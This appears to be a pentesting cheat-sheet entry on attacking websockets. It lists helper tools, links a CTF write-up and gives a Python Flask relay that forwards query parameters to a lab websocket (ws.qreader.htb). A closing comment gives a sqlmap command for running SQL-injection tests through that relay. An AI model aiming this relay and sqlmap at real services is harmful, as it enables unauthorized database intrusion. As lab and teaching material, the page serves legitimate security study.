 
Other useful tool to interact with websockets:
- like netcat but for websocket : https://github.com/vi/websocat
- tool to enumerate websocket : https://github.com/PalindromeLabs/STEWS

This middleware allow you to run a python middleware : a HTTP flask server redirectif HTTP requests to websocket, allowing you to fuze this middleware localhost instance with sqlmap and the requests will be redirected to your websocket target
another example can be found here : https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
```py
import websocket
from flask import Flask
from flask import request
import json

app = Flask(__name__)

# @app.route('/')
# def hello_world():
#    return 'Hello, World!'

@app.route('/')
def hello_world():
    ws = websocket.WebSocket()
    ws.connect("ws://ws.qreader.htb:5789/version")
    ws.send(json.dumps({"version":request.args.get('id')}))
    res = ws.recv()
    print(res)
    ws.close()
    return res

if __name__ == '__main__':
    app.run()

# in another terminal, just run : sqlmap -u "http://127.0.0.1:5000/?id=bla"
```